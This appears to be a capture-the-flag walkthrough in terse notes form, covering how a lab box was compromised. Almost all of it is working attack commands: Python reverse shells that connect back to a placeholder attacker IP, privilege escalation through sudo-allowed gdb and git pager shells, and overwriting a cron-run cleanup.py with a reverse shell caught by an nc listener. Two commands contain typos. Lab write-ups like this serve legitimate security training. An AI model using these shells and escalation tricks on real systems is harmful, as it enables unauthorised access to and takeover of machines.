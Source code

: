 ### Gain a stable shell instead of php-reverse-shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### Horizontal Privilege Escalation
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

### sudo -l again
```
(d4rckh) NOPASSWD: /usr/bin/git
```

### Horizontal Privilege Escalation again
```
PAGER='sh -c "exec sh 0<&1"' sudo -u d4rckh /usr/bin/git -p help
!/bin/sh
```
alternatively, try this
```
sudo -u d4rckh /usrbin/git help cofig
```

### Confirm the successful
`python -c 'import pty; pty.spawn("/bin/bash")'`

### Check the cleanup.py
```
cat /etc/crontab
```
it's run every 2 minutes

### Done and done (All those above escalations are somewhat redundant since not only d4rckh can edit)
```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4567));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > cleanup.py

nc -lnvp 4567
```

